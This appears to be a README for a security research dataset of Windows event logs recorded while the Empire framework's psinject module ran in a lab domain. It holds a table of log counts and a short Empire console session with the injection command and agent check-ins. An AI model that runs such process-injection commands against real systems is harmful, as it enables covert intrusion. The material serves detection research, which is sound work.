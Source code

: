
# Empire Psinject

An adversary can use psinject to execute powershell from any unmanaged process

## Technique(s) ID

T1055

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_psinject.tar.gz](./empire_psinject.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-19151711

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2166 |
| Windows PowerShell                       | Provider Lifecycle                                     |              16 |
| Windows PowerShell                       | Engine Lifecycle                                       |               2 |
| Security                                 | Filtering Platform Connection                          |             240 |
| Security                                 | Token Right Adjusted Events                            |             179 |
| Security                                 | User Account Management                                |             149 |
| Security                                 | Group Membership                                       |               8 |
| Security                                 | Logon                                                  |               8 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Termination                                    |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             293 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             225 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             217 |
| Microsoft-Windows-Sysmon/Operational     | CreateRemoteThread detected (rule: CreateRemoteThread) |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              88 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              28 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              23 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              17 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2115 |
| Microsoft-Windows-PowerShell/Operational | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational | Starting Command                                       |               1 |


## Empire Activity

```
psinject https 8148
```

```
[*] Tasked G6BYHU4F to run TASK_CMD_JOB
[*] Agent G6BYHU4F tasked with task ID 6
[*] Tasked agent G6BYHU4F to run module powershell/management/psinject
(Empire: G6BYHU4F) > Job started: 2AZBLF
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.104
[*] New agent MPB3UHD1 checked in
[+] Initial agent MPB3UHD1 from 10.0.10.104 now active (Slack)
[*] Sending agent (stage 2) to MPB3UHD1 at 10.0.10.104

(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 2MES3XN6 ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         4312   5/0.0    2019-03-19 14:11:49  https           
 G6BYHU4F ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         9156   5/0.0    2019-03-19 14:11:50  https           
 MPB3UHD1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         cmd                8148   5/0.0    2019-03-19 14:11:47  https           


(Empire: agents) >
```